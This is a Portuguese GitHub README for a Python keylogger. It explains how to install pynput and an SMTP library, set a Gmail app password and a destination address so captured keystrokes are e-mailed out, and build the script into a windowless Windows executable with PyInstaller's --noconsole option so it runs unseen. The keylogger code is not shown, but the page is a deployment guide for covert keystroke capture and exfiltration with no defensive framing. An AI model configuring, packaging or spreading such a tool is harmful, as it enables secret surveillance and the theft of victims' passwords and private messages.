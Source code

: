 [![Python 3.7](https://img.shields.io/badge/Python-3.7-blue.svg)](https://www.python.org/)
[![GPL License](https://img.shields.io/badge/License-GPL-blue.svg)](https://www.gnu.org/licenses/gpl-3.0.en.html)
[![Build Status](https://img.shields.io/badge/build-passing-brightgreen.svg)](#)
[![Security](https://img.shields.io/badge/security-reviewed-green.svg)](#)
[![OS](https://img.shields.io/badge/os-Windows%20%7C%20Linux%20%7C%20Mac-blue.svg)](#)
<img src="./capa.png" alt="Descrição da imagem" width="800"/>
## 📌 Tutorial de Configuração

Siga os passos abaixo para configurar o keylogger:

### 1️⃣ Instalar as dependências

Execute no terminal:

```bash
pip install pynput
pip install secure-smtplib
````

### 🔑 Criar a senha do app no Gmail

1. Acesse: [Senhas de App do Google](https://myaccount.google.com/apppasswords)  
2. Selecione **Mail** e **Other (Personalizado)**  
3. Gere a senha e copie

### 3️⃣ Configurar seu script

No arquivo Python, substitua os campos com `*****` pelas suas informações:

```python
EMAIL_REMETENTE = "************@gmail.com"  # Substitua pelo seu e-mail
SENHA_APP = "************"                     # Substitua pela senha do app
EMAIL_DESTINO = "*****************@gmail.com"     # Para onde os logs serão enviados
````

### 💻 Opcional: Converter o keylogger em .exe

Se você quiser criar um executável do seu keylogger para Windows, pode usar o **PyInstaller**:

1. Instale o PyInstaller:

```bash
pip install pyinstaller
````

2. Navegue até a pasta do script e execute:

```bash
pyinstaller --onefile --noconsole main.py
````

3. Após a conclusão, o executável estará disponível na pasta dist/.
